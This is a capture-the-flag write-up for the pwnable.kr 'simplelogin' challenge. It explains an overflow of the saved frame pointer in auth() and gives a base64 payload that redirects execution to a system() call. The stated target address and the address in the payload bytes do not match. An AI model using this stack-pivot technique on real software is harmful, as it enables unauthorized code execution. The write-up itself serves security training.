









Play this challenge at pwnable.kr: https://pwnable.kr/play.php


# Instructions

>Can you get authentication from this server?
>
>ssh simplelogin@pwnable.kr -p2222 (pw: guest)

# Provided Files

## readme
```
once you connect to port 9003, the "simplelogin" will be executed under simplelogin_pwn privilege.
make connection to challenge (nc 0 9003) then get the flag.
```

# Lay of the land

Running the binary, we see it asks for input, then prints what seems to be a MD5 hash.



# Disassembly of the binary

Disassembling the binary, we see the following for main:



The binary takes user input, base64 decodes the input and runs `auth()` on the input. If `auth()` returns `1`, it runs `correct()`. 





An interesting thing about `auth()` - Notice line 18 of `main()` checks that the length of `input`, `i < 0xd` (`i` is length of base64 decoded input, which is stored in global variable `input`). This means the size of `input` can be upto 0xc (12) bytes long. However, in `auth()`, the contents of `input` are being `memcpy`'ed into a buffer of only 8 bytes long, on line 10. By providing an input >8 bytes but <13 bytes, we can overwrite upto 4 bytes on the stack. Lets see what gets overwritten on the stack...

# Overwriting the stack to control $EBP and $EIP

To see what happens when we provide input >8 bytes but <13 bytes (pre-base64 encoding), lets use gdb. 

```Bash
┌──(kali㉿kali)-[~/pwnable.kr/simpleLogin]
└─$ python3
Python 3.13.5 (main, Jun 25 2025, 18:55:22) [GCC 14.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import base64
>>> payload = b"aaaaaaaaaaaa"
>>> b64 = base64.b64encode(payload)
>>> b64
b'YWFhYWFhYWFhYWFh'
```



Interesting. So it looks like the `EBP` register is being overwritten. The `EBP` register is used by functions to point to the function's local frame. Our 8 byte buffer into which our 12 byte input is being copied into must be at the top of the stack right after the 'saved `EBP`' of the `auth()` function. Once `auth()` function ends, it loads into the `EBP` register the 'saved `EBP`' that we can overwrite on the stack!



If we can control `EBP`, we can control `EIP` (function return address) by setting `EBP` to the address of where our desired `EIP` is stored in memory, minus 4 bytes. 

# Plan 

So here is our plan: 

We want `EIP` to end up as the memory address of the `system()` call on line 7 of `correct()` - `0x0804928b`



We can place these bytes: `0x0804928b`, into memory by placing it onto our `input` variable - say, the first 4 bytes. (We use `input` since it is a global variable and memory location is fixed)

We also need to overwrite the `EBP` register to point to the memory location of the variable `input` (where we store `0x0804928b`) minus 4 bytes. The location of `input` is `0x811eb40` so `input-4` is `0x811eb3c`



Remember that to overwrite `EBP`, the address needs to be in positions 8-12 within our payload. Thus we need some padding bytes between `0x0804928b` and `0x811eb3c` in our final payload.

# Solution

```Bash
┌──(kali㉿kali)-[~/pwnable.kr/simpleLogin]
└─$ python3
Python 3.13.5 (main, Jun 25 2025, 18:55:22) [GCC 14.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import base64
>>> payload = b"\x84\x92\x04\x08aaaa\x3c\xeb\x11\x08"
>>> b64 = base64.b64encode(payload)
>>> b64
b'hJIECGFhYWE86xEI'
```

